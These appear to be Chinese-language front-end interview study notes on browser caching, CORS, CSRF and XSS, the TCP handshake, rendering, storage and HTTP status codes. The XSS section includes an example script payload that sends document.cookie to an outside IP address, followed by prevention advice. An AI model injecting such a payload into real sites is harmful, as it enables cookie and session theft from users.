 # 浏览器

### 问题一 ：前端性能优化 

#### 浏览器缓存
    合理运用浏览器缓存可以减少服务器压力，提高网页响应速度,浏览器会根据响应header里的缓存相关字段来设置缓存，浏览器缓存分为强缓存和协商缓存，优先强缓存
    强缓存:强制使用缓存 通过响应头 Cache-Control：（private,public,no-cache,mag-age=0,no-store）字段控制  如果传了no-cache 证明需要使用协商缓存
    协商缓存:每次使用前需要和服务器协商一下是否使用缓存，服务器通过响应头（Etag：1）决定是否应用协商缓存， (以后每次请求 都会在头里带上If-None-Match:1) 
    如果返回304 继续使用缓存，如果服务器数据已更新（修改Etag值），重新返回200 和新的responseBody数据 替换缓存. 
#### 图片
    使用精灵图 减少图片资源，可以使用图片懒加载
#### 压缩
    使用gzip压缩服务返回的数据 请求头设置（Accept-Encoding: GZIP, Deflate） 服务器 设置响应头Content-Encoding: GZIP

### 问题二 ：对跨域的理解和解决
    浏览器出于安全考虑，一个源的网站不允许与另一个源的网站交互，同源即 协议 主机 端口都相同 执行脚本的时候会检测是否同源ajax不同源的会被拦截
    跨域资源嵌入是可以的  <img> <script> <link> <iframe>

    1.通过后台响应头设置允许跨域 
    2.通过nginx 监听同一端口  通过/api 路径来区分不同服务的访问

### 问题三 ：csrf和xss攻击理解和预防
    csrf 利用浏览器信任 统一domain下的请求，会携带cookie  a打开银行网站,登录后没关闭此窗口，然后打开了含有攻击性的网站,网站内有<img src='http://转账代码'> 头中会携带cookie
    预防 ：1.数据安全性高高的避免使用 get请求 ，2.用token认证  3.对接口加验证码校验
    xss 嵌入恶意的js代码然后获取用户cookie  比如博客评论 在内容里嵌入<script>window.open('http://10.65.20.196:8080/cookie.asp?msg='+document.cookie)</script> 我的服务就拿到了cookie
    预防：1.过滤特殊字符  2. 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。

### 问题四 tcp 连接的三次握手为什么不能改成2次
    考虑到client A 请求与服务B建立连接,由于网络原因这次报文一定时间内没到达B ，A又发起了一次连接现在开始传数据没传完后关闭，一开始那次请求，到达了B ,B现在发送确认请求，
    然后一直等着A 来发送数据，A本身已经不想发送数据了，这样造成了服务资源浪费。
### 问题五 简述tcp连接3次握手过程
    第一次握手，客户端主动连接服务器，发送初始序列号'seq =x','SYN = 1'同步标志 进入SYN_SEND同步发送状态
    第二次握手，服务器收到消息后 发送确认同步标志 'SYN=1'和确认标志'ACK=1',并发送自己的序列号'seq=y'和客户端确认序列'ack=x+1' 进入同步接收'SYNC_RECV'状态
    第三次握手，客户端接收后 发送确认标志 'ACK=1'和自己的序列号'seq=x+1'与服务器确认号'ack=y+1'进入建立连接状态，服务器收到后也进入连接状态 
### 问题五 简述tcp和udp的区别
   TCP：                                                                        UDP：
   面向连接，可以传输相对较大数据                                                  无连接，可以传输的数据相对较小
   使用流量控制，拥塞控制保证可靠                                                  不使用流量控制和拥塞控制，尽最大努力交付
   保证传输顺序                                                                   不保证传输顺序
   提供校验和，确认应答，流量控制，拥塞控制 超时重传，序列号，连接管理       
   适用于可靠传输，文件传输                                                        应用于直播，网络电话，视频会议 
### 问题六 简述tcp粘包解决方案
   粘包 服务端会将间隔时间较小连续发送的包粘起来组成一个大包 
   解决：将每次传输的消息分为消息头和消息体，消息头包含这次传输的总长度，服务端解析

### 问题七 浏览器渲染过程
   自上而下先解析<html>形成'DOM Tree'
   如果解析到<Link><Style>解析css 形成'CSS Tree' html和css解析开始并行解析
   遇到<Script>停止文档解析 开始解析js 
   'Dom Tree 和CSS Tree'生成后，将两者结合布局，计算大小位置等,生成'render Tree'
   根据计算好的信息，调用paint ，将内容显示在屏幕上
### 问题八 重绘 回流
   重绘：'render tree'中一些影响外观，但是不影响布局的属性改变，比如bgc-color，整棵树不需要重新构建
   回流： 布局，元素尺寸大小改变，需要重新绘制整棵树，就是回流，页面第一次加载就是回流
### 常见的兼容性问题
   浏览器由于版本不同，内核不同，导致最后渲染出来的的结果有不同，通常使用normalize抹平样试差异 
   默认边距也可能不同
   ie4-8 不支持css3 opacity属性，可以通过css filter来设置
   ie4-8 不支持媒体查询，不支持html5新标签 
   ie4-8 window.event.returnValue =false 阻止默认行为      window.event.cancelBubble = true 防止事件冒泡
   webkit内核 event.preventDefault()                      event.stopPropagation()
### 浏览器默认行为（直接在处理函数中加return false也会阻止默认行为）
    <a href="">会默认跳转地址 通过监听事件 阻止默认行为 就不能跳转了
    <input> 获得焦点后 敲击键盘会自动输入 阻止后 键盘输入无效
    type为submit的input 或者<button>都会触发表达提交，阻止后不提交
### 浏览器本地存储 
    localStorage 存储大约5m大小 永久存储除非删掉
    sessionStorage 存储大约5m大小 关闭浏览器就是失效
    cookie 存储大约4k 不设置过期时间的话 关闭浏览器会失效
    session 存储在服务端 通过服务器设置 一般会以键值对存储在cookie中
    下次请求浏览器会自动带上sessionid去服务器，服务器自动解析sessionid，
    获取session 通过session获取session存储的信息
### 事件委托机制
    由于事件默认是向上冒泡的，操作子盒子的事件可以写在父盒子上，让父盒子去执行
    比如ul 下面多个li 不需要给每个li都设置点击事件，父盒子设置设置点击事件，
    点击子盒子也可以拿到子盒子的标签。
### http状态码
    200 ok
    301：永久重定向；
    302：临时移动，可使用原有URI；
    304：资源未修改，可使用缓存；
    400 服务器无法解析客户端请求
    401 需要请求身份认证
    403 服务器拒绝执行此请求
    404 服务器找不到客户请求资源
    500 服务器内部错误
    502 网关出问题
    503 服务器挂了